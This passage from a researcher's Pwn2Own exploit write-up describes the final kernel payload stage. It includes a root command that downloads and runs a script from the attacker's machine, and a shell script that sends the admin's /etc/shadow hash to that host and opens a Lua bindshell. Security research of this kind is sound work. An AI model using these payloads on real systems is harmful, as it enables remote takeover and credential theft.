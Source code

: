 Once the `func` pointer is invoked, I get control over the execution flow and I execute a [simple kernel payload](https://github.com/0vercl0k/zenith/blob/main/src/sh.remote.asm) that leverages `call_usermodehelper_setup` / `call_usermodehelper_exec` to execute user mode commands as root. It pulls a shell script off a listening HTTP server on the attacker machine and executes it.
```text
arg0: .asciiz "/bin/sh"
arg1: .asciiz "-c"
arg2: .asciiz "wget http://{ip_local}:8000/pwn.sh && chmod +x pwn.sh && ./pwn.sh"
argv: .word arg0
      .word arg1
      .word arg2
envp: .word 0
```
 
The [pwn.sh](https://github.com/0vercl0k/zenith/blob/main/src/pwn_base.sh) shell script simply leaks the `admin`'s `shadow` hash, and opens a bindshell (cheers to [Thomas Chauchefoin](https://twitter.com/swapgs) and [Kevin Denis](https://twitter.com/0xMitsurugi) for the Lua oneliner) the attacker can connect to (if the kernel hasn't crashed yet 😳):
```bash
#!/bin/sh
export LPORT=31337
wget http://{ip_local}:8000/pwd?$(grep -E admin: /etc/shadow)
lua -e 'local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  while true do
    local r,x=c:receive();local f=assert(io.popen(r,"r"));
    local b=assert(f:read("*a"));c:send(b);
  end;c:close();f:close();'
```
 
The exploit also uses the debug interface that I mentioned earlier as it leaks kernel-mode pointers and is overall useful for basic synchronization (cf the `Leaker` class).
 
OK at that point, it works in QEMU... which is pretty wild. Never thought it would. Ever. What's also wild is that I am still in time for the Pwn2Own registration, so maybe this is also possible 🤔. Reliability wise, it worked well enough on the QEMU environment: about 3 times about 5 I would say. Good enough.
 
I started to port over the exploit to the real device and to my surprise it also worked there as well. The reliability was poorer but I was impressed that it still worked. Crazy. Especially with both the hardware and the kernel being different! As I still wasn't able to debug the target's kernel I was left with `dmesg` outputs to try to make things better. Tweak the spray here and there, try to go faster or slower; trying to find a magic combination. In the end, I didn't find anything magic; the exploit was unreliable but hey I only needed it to land once on stage 😅. This is what it looks like when the stars align 💥:
 